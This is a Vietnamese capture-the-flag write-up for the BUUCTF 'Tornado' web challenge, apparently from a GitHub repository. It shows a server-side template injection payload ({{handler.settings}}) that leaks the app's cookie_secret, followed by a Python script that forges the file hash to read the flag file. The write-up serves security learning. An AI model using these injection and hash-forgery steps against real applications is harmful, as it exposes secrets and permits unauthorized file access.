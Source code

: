 Challenge cho ta 3 đuồng dẫn

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/a2a056ea-5309-49dd-8649-72468063f2b7)

```
/flag.txt
flag in /fllllllllllllag

/welcome.txt
render

/hints.txt
md5(cookie_secret+md5(filename))
```

Vậy thì flag thì sẽ ở  `/fllllllllllllag`. Và sau khi mở dường dẫn `/hints.txt` thì 1 method GET thực hiện  nội dung sau `/file?filename=/hints.txt&filehash=40537aea44509546077b9e084731b10f`

Ở đây `filename=/hints.txt` và `filehash=40537aea44509546077b9e084731b10f`.Dựa theo nội dung đường dẫn hints.txt thì `filehash=md5(cookie_secret+md5(filename))`.Ta chỉ còn thiếu `cookie_secret` là solve được bài.

Và ta thầy là GET request luôn tạo bởi file `/file` . Mở đường dẫn đó ta được

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/467d865c-51f2-43c4-b78a-1299b8471faa)

Ta được 1 GET request nữa với tham số `msg=Error`.Theo tên challenge là `Tornado` là framework của python có lỗi SSTI. Mình thử bypass cơ bản bằng cách inject `{{7*7}}`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/f81abe07-e24a-43f0-a477-eb53d3d22e80)

Kết quả trả về là `ORZ`, mình có thử những cách khác nhưng kết quả vẫn trở về như vậy.Sau khi research về framework tonardo [ở đây](https://www.tornadoweb.org/en/stable/web.html#tornado.web.RequestHandler.settings). Thì khi build web, tonardo có nhiều handler, và tất cả những handler đó đều là subclasses của RequestHandler.

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/b95a0940-4104-490c-ade6-ef634081db81)

Nên `RequestHandler.settings là self.application.settings`.Vậy thì `Handler.settings là RequestHandler.settings`.

Được payload `/error?msg={{handler.settings}}`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/c9201a69-95e8-4741-b2f6-3275a88a4dab)

Ta đã có `cookie_secret`, giờ chỉ cần dựa theo hint đã cho là ta có được `filehash`

```python
import hashlib
cookie='071f4990-29d5-4229-ad1b-fa68bd367736'
file_filename = '/fllllllllllllag'
md5_filename = hashlib.md5(file_filename.encode(encoding='UTF-8')).hexdigest()
word = cookie+md5_filename
flag = hashlib.md5(word.encode(encoding='UTF-8')).hexdigest()
print(flag)
///output:615ce0a3b27ca20b0733e572504944c9
```

Ta được: `/file?filename=/fllllllllllllag&filehash=615ce0a3b27ca20b0733e572504944c9`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/e1d7de1c-f269-457a-81d2-65d75a4a40ce)

Read 

https://www.tornadoweb.org/en/stable/guide/structure.html

https://www.tornadoweb.org/en/stable/web.html#tornado.web.RequestHandler.application

https://www.tornadoweb.org/en/stable/web.html#tornado.web.RequestHandler.settings





